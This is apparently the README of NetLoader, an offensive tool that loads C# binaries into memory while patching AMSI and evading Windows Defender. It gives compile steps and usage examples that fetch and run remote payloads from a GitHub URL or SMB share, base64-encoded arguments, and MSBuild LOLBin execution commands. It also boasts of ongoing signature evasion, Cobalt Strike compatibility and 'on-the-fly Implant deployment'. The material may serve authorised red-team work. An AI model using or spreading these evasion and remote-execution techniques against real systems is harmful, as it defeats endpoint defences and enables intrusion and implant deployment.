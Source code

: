 # NetLoader
Loads any C# binary in mem, patching AMSI and bypassing Windows Defender

The binaries in this repo SHOULD be all clean and newly compiled from their respective GitHub repos, but feel free to compile / host your own.
(Don't consider running binaries from this repo good OPSEC) 

Latest update / Signature fix was 28.05.2020, pretty much clean as a whistle
Currently doing 24/7 signature checks, so let's see how long it takes this time

Code is designed to deploy binaries from a GitHub repo, so should be straight forward.

1. Clone your own repo from this
2. Change the url on line 13 in Program.cs
3. Re-Compile / add your own binaries in /Binaries (Regex looks for .bin only!)
3. Build and enjoy!

# Compile
Changed because Defender added some signatures related to VS ressources.
(Also just way simpler)

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Usage
Deploy from remote URI

	PS D:\NetLoader> .\NetLoader.exe https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik


Deploy from local path or SMB share, note that NetLoader detects whether the input path is local or remote)

	.\NetLoader.exe --path D:\Tools\Stracciatella.bin --args whoami
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting D:\Tools\Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik


Supports base64 inputs for those long strings that usually would break stuff!

	PS D:\NetLoader> .\NetLoader.exe b64 aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik
	PS D:\NetLoader>


	PS D:\NetLoader> .\NetLoader.exe --b64 --path aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu --args d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik

Should be Cobalt Strike friendly ! :) 

Credits to https://twitter.com/_RastaMouse for the AMSI bypass
-> https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs

# LOLBins

Payload for MSBuild is in the repo (LOLBins) folder, might push this for varius other LOLBins aswell.

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Todo
- [ ]  Automate the build and release of many of the Sharp Tools so they automagically appear in /Binaries (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [ ]  Add some missing stuff SharpSploit and SharpShell (Need to fix some deps)
- [ ]  Propely confirm and test every current bin
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [ ]  Update with credits and links to the github repos that /Binaries are compiled from

